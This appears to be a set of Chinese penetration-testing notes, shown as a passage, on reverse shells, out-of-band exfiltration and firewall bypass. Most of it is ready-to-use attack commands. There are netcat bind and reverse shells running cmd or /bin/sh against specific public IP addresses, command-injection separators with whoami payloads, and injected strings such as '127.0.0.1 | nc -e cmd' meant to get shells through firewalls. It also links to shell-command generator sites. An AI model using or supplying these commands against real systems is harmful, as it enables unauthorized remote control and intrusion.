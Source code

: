 # 1反弹SHELL&不回显带外&正反向连接&防火墙出入站&文件下载

\#常规基本渗透命令详解

https://blog.csdn.net/weixin_43303273/article/details/83029138

 

\#实用案例1：文件上传下载-解决无图形化&解决数据传输

命令生成：https://forum.ywhack.com/bountytips.php?download

Linux：wget curl python ruby perl java等

Windows：PowerShell Certutil Bitsadmin msiexec mshta rundll32等

 

\#实用案例2：反弹Shell命令-解决数据回显&解决数据通讯

命令生成：https://forum.ywhack.com/shell.php

1、正向连接：本地监听等待对方连接

Linux控制Windows

//绑定CMD到本地5566端口

nc -e cmd -lvp 5566

//主动连接目标5566

ncat 47.122.23.131 5566

 

Windows控制Linux

//绑定SH到本地5566端口

ncat -e /bin/sh -lvp 5566

//主动连接目标5566

nc 47.94.236.117 5566

 

2、反向连接：主动给出去，对方监听

//绑定CMD到目标5566端口

ncat -e /bin/sh 47.122.23.131 5566

//等待5566连接

nc -lvvp 5566

 

//绑定CMD到目标5566端口

nc -e cmd 47.94.236.117 5566

//等待5566连接

ncat -lvvp 5566

 

\#实际案例1：防火墙绕过-正向连接&反向连接&内网服务器

管道符：| (管道符号) ||（逻辑或） &&（逻辑与）  &(后台任务符号)

Windows->| & || &&

Linux->; | || & && ``(特有``和;)

例子：

ping -c 1 127.0.0.1 ; whoami

ping -c 1 127.0.0.1 | whoami

ping -c 1 127.0.0.1 || whoami

ping -c 1 127.0.0.1 & whoami

ping -c 1 127.0.0.1 && whoami

ping -c 1 127.0.0.1 `whoami`

 

1、判断windows

2、windows没有自带的nc

3、想办法上传nc 反弹权限

4、反弹

开启入站策略，采用反向连接

Linux：ncat -lvvp 5566

Windows：127.0.0.1 | nc -e cmd 47.94.236.117 5566

开启出站策略，采用正向连接

Linux：ncat -e cmd 47.122.23.131 5566

Windows：127.0.0.1 | nc -e cmd -lvvp 5566

正反向反弹案例-内网服务器

只能内网主动交出数据，反向连接

 

\#实际案例2：防火墙组合数据不回显-ICMP带外查询Dnslog

出站入站都开启策略（数据不回显）：OSI网络七层

---

